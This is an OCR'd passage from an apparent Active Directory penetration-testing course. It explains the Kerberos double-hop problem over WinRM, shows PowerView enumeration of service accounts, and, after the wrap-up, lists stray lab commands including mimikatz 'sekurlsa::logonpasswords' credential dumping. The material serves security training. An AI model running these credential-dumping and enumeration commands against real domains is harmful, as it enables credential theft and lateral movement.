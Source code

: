 We can now run tools such as PowerView without having to create a new PSCredential object.

Kerberos "Double Hop" Problem

```powershell-session
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

Note: We cannot use `Register-PSSessionConfiguration` from an evil-winrm shell because we won't be able to get the credentials popup. Furthermore, if we try to run this by first setting up a PSCredential object and then attempting to run the command by passing credentials like `-RunAsCredential $Cred`, we will get an error because we can only use `RunAs` from an elevated PowerShell terminal. Therefore, this method will not work via an evil-winrm session as it requires GUI access and a proper PowerShell console. Furthermore, in our testing, we could not get this method to work from PowerShell on a Parrot or Ubuntu attack host due to certain limitations on how PowerShell on Linux works with Kerberos credentials. This method is still highly effective if we are testing from a Windows attack host and have a set of credentials or compromise a host and can connect via RDP to use it as a "jump host" to mount further attacks against hosts in the environment. .

We can also use other methods such as CredSSP, port forwarding, or injecting into a process running in the context of a target user (sacrificial process) that we won't cover here.

---

## Wrap Up

In this section, we've seen how to overcome the Kerberos "Double Hop" problem when working with WinRM in an AD environment. We will encounter this often during our assessments, so we must understand the issue and have certain tactics in our toolbox to avoid losing time.

The following section will cover other ways to escalate privileges and move laterally in a domain once we have valid credentials using various critical vulnerabilities identified throughout 2021.

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist